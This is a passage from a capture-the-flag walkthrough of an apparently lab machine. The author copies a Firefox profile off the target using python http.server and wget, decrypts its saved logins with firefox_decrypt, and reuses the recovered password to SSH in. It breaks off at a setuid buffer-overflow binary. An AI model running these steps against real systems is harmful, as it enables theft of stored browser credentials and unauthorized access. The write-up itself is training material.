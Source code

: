 The _.mozilla_ dir which's firefox things, As some googling I found firefox decrypter. 

_"Firefox Decrypt is a tool to extract passwords from Mozilla"_.

First send this 0ryxwn4c.default-release file to attacker box.

Start Python server in victim box.

	python3 -m http.server

Get the files in attacker box.

	wget --recursive 10.10.223.94:8000/0ryxwn4c.default-release --continue

After got the files, Now use the tool firefox decrypter.

```bash
python3 firefox_decrypt.py 0ryxwn4c.default-release                    15 ⨯
2021-08-14 11:30:48,320 - WARNING - profile.ini not found in 0ryxwn4c.default-release
2021-08-14 11:30:48,320 - WARNING - Continuing and assuming '0ryxwn4c.default-release' is a profile location

Master Password for profile 0ryxwn4c.default-release: 

Website:   https://incognito.com
Username: 'dev'
Password: 'Paxxxxxxx247'
```
Master Password for profile 0ryxwn4c.default-release: password I tried some random passwords like admin, password, and **password1** was working.

After decrypt its gives us a username and password.

I tried the password for ssh'ing to root but no luck and user carlJ was uses this password its works for carlJ.

	ssh carlJ@10.10.223.94 


In carlJ mailling directory has _smail_ file its __Bufferoverflow__;(

## Bufferoverflow

```bash
carlJ@incognito:~/mailing$ file smail 
smail: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=db3b9e88c12bc14ae66231b1ce6b70b2590d7f48, not stripped
```

![image](../assets/img/thm/chronicle/smaill1.png)

The first one has limit 80 but its works input more than 80 also
